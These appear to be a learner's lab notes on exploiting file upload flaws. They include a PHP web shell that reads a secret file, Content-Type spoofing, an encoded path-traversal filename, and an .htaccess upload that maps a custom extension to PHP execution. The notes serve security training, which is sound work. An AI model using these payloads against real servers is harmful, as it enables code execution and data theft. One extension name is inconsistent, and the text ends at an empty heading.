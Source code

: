## basic 

- upload avatar image -> enable image under *filter by MIME type* in burp 
	-  image was fetched using  `GET` request to `/files/avatars/<YOUR-IMAGE>`
- exploit.php:
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
=> `GET /files/avatars/exploit.php HTTP/1.1`
# Exploiting flawed validation 

## Flawed file type validation

- -> response indicates you are only allowed with `image/jpeg` or `image/png` 
- find the post request to `/my-account/avatar` 
- change the `Content-Type` to `image/jpeg`
## Preventing file execution in user-accessible directories

- change the `filename` to include a [[WEB/vulnerabilities/Path Traversal/concepts|directory traversal]] sequence:
    `Content-Disposition: form-data; name="avatar"; filename="../exploit.php"`
- response: `The file avatars/exploit.php has been uploaded.` -> failed
- Obfuscate the sequence -> `filename="..%2fexploit.php"`
- response: `The file avatars/../exploit.php has been uploaded.` -> success
- `GET /files/avatars/..%2fexploit.php` or `GET /files/exploit.php`
# Insufficient blacklisting

## Overriding the server configuration

apache: 
`LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php`

IIS:
`<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>`
##### senario
-  in `POST /my-account/avatar` 
	- value of  `filename` ->  `.htaccess`
	- `Content-Type` header -> `text/plain`
	- content of the file -> `AddType application/x-httpd-php .l33t` =>  maps .l33t extension to PHP MIME.
- again in  in `POST /my-account/avatar
	- `filename` -> from `exploit.php` to `exploit.l33`
- `GET /files/avatars/exploit.l33t`
## Obfuscating file extensions

